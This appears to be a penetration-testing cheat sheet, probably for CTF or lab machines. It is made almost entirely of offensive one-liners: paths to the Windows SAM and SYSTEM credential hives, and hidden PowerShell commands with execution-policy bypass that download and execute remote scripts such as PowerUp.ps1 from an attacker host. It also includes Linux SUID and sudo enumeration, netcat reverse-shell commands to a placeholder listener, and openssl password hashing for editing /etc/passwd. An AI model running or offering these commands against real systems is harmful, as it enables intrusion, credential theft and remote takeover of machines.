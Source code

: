 ```
C:\Windows\System32\Config\SAM
```

```
C:\Windows\System32\Config\SYSTEM
```

# powershell

```
powershell -c IEX (New-Object Net.WebClient).DownloadString('http://[LHOST]')
```

```
powershell -noni -nop -exec bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://[LHOST]');Invoke-AllChecks"
powershell -nop -exec bypass -w hidden "IEX (New-Object System.Net.WebClient).DownloadFile('http://[LHOST]/file', 'C:\Users\user\Documents\file')"
```

```
powershell -noni -nop -exec bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.19/PowerUp.ps1');Invoke-AllChecks"
```

```
powershell -noni -nop -exec bypass -w Hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.19/PowerUp.ps1');Invoke-AllChecks"
```

# Privilege escalation
```
sudo -l
```

```
find / -perm -4000 2>/dev/null
```

https://github.com/DominicBreuker/pspy/releases

http://urfsecurity.info/posts/linuxprivesc/

# bin reverese shell
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f" > /bin
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i | nc [LHOST] [LPORT] >/tmp/f
```

# /etc/passwd
```
openssl passwd -1
```
